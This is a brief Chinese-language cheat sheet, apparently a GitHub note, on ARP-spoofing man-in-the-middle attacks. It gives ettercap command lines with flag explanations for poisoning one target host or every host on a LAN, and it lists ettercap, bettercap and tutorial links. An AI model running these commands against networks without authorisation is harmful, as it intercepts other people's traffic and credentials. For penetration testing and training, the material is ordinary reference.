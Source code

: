 






```bash
ettercap -Tqi ens33 -M arp:remote /192.168.72.1// ///
-T 文本模式
-q 安静模式 抓到数据包后不显示
-i 选择网络接口
-M 选择模式
注：（如果想欺骗局域网的所有主机可写成：ettercap -Tqi wlan0 -M arp：remote  /// /网关ip//）


ettercap -i eth0 -T -M arp:remote /10.0.0.1/ // 欺骗局域网内所有主机
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ /10.0.0.12/ 欺骗IP为10.0.0.12的主机

```




## Tools


ettercap

https://github.com/Ettercap/ettercap

bettercap

https://github.com/bettercap/bettercap


## 资料

内网中间人玩法备忘录

http://3xp10it.cc/web/2017/05/16/%E5%86%85%E7%BD%91%E4%B8%AD%E9%97%B4%E4%BA%BA%E7%8E%A9%E6%B3%95%E5%A4%87%E5%BF%98%E5%BD%95/



https://www.s0nnet.com/archives/mitm-ettercap

ettercap安装

http://blog.sina.com.cn/s/blog_15e7bc4bb0102w8la.html